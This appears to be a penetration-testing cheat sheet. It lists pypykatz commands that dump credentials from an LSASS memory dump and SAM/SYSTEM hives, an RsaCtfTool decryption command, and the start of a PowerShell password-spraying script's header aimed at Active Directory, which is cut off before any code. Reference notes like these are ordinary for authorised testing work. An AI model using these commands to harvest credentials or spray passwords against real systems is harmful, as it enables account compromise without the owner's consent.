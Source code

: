 ## pypykatz

> https://github.com/skelsec/pypykatz

### Common Commands

```console
$ pypykatz lsa minidump lsass.dmp
$ pypykatz registry --sam sam system
```

### Create RC4 Hash from Password

```console
$ pypykatz crypto nt 'P@ssw0rd123!'
```

## RsaCtfTool

> https://github.com/Ganapati/RsaCtfTool

```console
$ python3 RsaCtfTool.py --publickey /PATH/TO/<KEY>.pub --uncipherfile /PATH/TO/FILE/<FILE>.enc
```

## Spray-Passwords

### Spray-Passwords.ps1

```powershell
<#
  .SYNOPSIS
    PoC PowerShell script to demo how to perform password spraying attacks against 
     user accounts in Active Directory (AD), aka low and slow online brute force method.
    Only use for good and after written approval from AD owner.
    Requires access to a Windows host on the internal network, which may perform
     queries against the Primary Domain Controller (PDC).
    Does not require admin access, neither in AD or on Windows host.
    Remote Server Administration Tools (RSAT) are not required.
    
    Should NOT be considered OPSEC safe since:
    - a lot of traffic is generated between the host and the Domain Controller(s).
    - failed logon events will be massive on Domain Controller(s).
    - badpwdcount will iterate on user account objects in scope.
    
    No accounts should be locked out by this script alone, but there are no guarantees.
    NB! This script does not take Fine-Grained Password Policies (FGPP) into consideration.
  .DESCRIPTION
    Perform password spraying attack against user accounts in Active Directory.
  .PARAMETER Pass
    Specify a single or multiple passwords to test for each targeted user account. Eg. -Pass 'Password1,Password2'. Do not use together with File or Url."
	
  .PARAMETER File
    Supply a path to a password input file to test multiple passwords for each targeted user account. Do not use together with Pass or Url.
	
  .PARAMETER Url
    Download file from given URL and use as password input file to test multiple passwords for each targeted user account. Do not use together with File or Pass.
	
  .PARAMETER Admins
    Warning: will also target privileged user accounts (admincount=1.)". Default = $false.
  .EXAMPLE
```